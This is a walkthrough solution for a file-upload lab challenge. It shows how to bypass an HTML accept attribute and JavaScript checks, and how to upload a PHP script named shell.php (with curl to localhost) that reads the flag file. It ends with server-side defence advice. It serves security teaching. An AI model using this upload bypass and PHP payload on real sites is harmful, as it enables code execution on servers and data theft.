

# Solution: Insecure File Upload Lab

## Option 1: Bypassing the Frontend Checks Manually

The first step is to **inspect the frontend HTML** served at `/upload`. Right-click on the page and select **“Inspect”** or press `F12` to open the Developer Tools in your browser. In the HTML code of the form, you'll notice something like this:

```html
<input type="file" name="file" required accept=".png,.jpg,.jpeg" />
```

The `accept` attribute is what limits the selectable files to only PNG and JPEG images. But **this is purely a client-side check**, meaning it's enforced by the browser interface, not the server. Client-side checks can always be bypassed.

### Step-by-Step Instructions:

1. **Remove the `accept` attribute** from the `<input>` tag using Developer Tools.
   - This will allow you to select any file type via the file picker, including `.php` files.
   - However, upon selecting a file that is not an image, you will immediately see a JavaScript **alert** warning you that "Only image files are allowed."

2. This shows that there's **additional frontend validation using JavaScript**.
   - Even though you've removed the `accept` attribute, the frontend script still enforces restrictions by monitoring the file type.

   

3. To fully bypass this, **disable JavaScript** in your browser:
   - In Chrome: Open Developer Tools, go to the Command Menu (Ctrl+Shift+P), type `Disable JavaScript`, and select the option.
   - Alternatively, you can disable JavaScript in browser settings.
   - With JavaScript disabled, there will be no alert, and you can proceed with uploading any file.

4. Now try uploading a `.php` file, for example, a simple PHP file that reads the flag:

```php
<?php
echo "FLAG: " . file_get_contents("/flag");
?>
```

5. After uploading, you should receive a message like:

```
File uploaded! Access it at /uploads/shell.php
```

6. Visit the provided URL (e.g. `/uploads/shell.php`) in your browser. You should see the contents of the `flag.txt` file.

---

This method clearly shows how **frontend protections are superficial**. HTML attributes like `accept` and even active JavaScript validations are **not security measures** — they only provide hints to the user. Any user with basic browser tools can modify or bypass these checks entirely.

**The takeaway**: Always perform file validation and filtering on the backend — it's the only place you can trust.

---

## Option 2: Using `curl -F` to Upload the PHP File

If you prefer using the command line or want to avoid dealing with the browser entirely, you can achieve the same result with `curl`.

### Step-by-Step Instructions:

1. Prepare your malicious file `shell.php`:

```php
<?php
echo "FLAG: " . file_get_contents("/flag");
?>
```

2. Use `curl` to upload it:

```bash
curl -F "file=@shell.php" http://localhost:8080/upload
```

3. You will get a response like:

```
File uploaded! Access it at /uploads/shell.php
```

4. Now visit `http://localhost:8080/uploads/shell.php` in your browser or use `curl` again:

```bash
curl http://localhost:8080/uploads/shell.php
```

You should now see the contents of `/flag.txt`.

---

## Security Questions
1. **Why are client-side validation checks alone insufficient for securing file uploads?**<br>
Client-side checks run in the user's browser, which an attacker can easily bypass or modify. They can manipulate the request directly (e.g., using browser developer tools or proxies) to send malicious data regardless of frontend restrictions.

2. **Beyond file type, what other crucial security checks should a robust file upload mechanism implement on the server-side to prevent malicious uploads?**<br>
Server-side checks should include:

- **Content validation:** verifying the actual file content (e.g., using getimagesize() for images) to ensure it's not a disguised script.
- **Malware scanning:** checking for known malicious code.
Renaming uploaded files: to prevent path traversal or execution issues.
- **Limiting file size:** to prevent denial-of-service attacks.
- **Storing files outside the web root:** to prevent direct execution if a script somehow bypasses other checks.

3. **If an attacker successfully uploads a malicious PHP script, what are some potential negative consequences for the web application and its server?
An attacker could:**

- Execute arbitrary commands on the server.
- Gain access to sensitive data (e.g., database credentials, user information).
- Deface the website or install backdoors.
- Use the server to launch further attacks (e.g., phishing, spam, DDoS).
- Completely compromise the server, leading to data loss or system unavailability.

## Conclusion

This challenge demonstrates how **frontend-only security is not real security**. Relying on client-side HTML attributes or JavaScript to enforce upload restrictions is easily bypassed.

To properly protect against malicious uploads:

- Always perform **server-side validation** of file types and content.
- Use **MIME-type detection** and content inspection libraries.
- Store uploaded files outside of publicly accessible directories or configure your web server to never execute them.
- If executable content must be allowed, sandbox its execution or validate it thoroughly.

Never trust the client. Always validate and sanitize inputs on the server side.
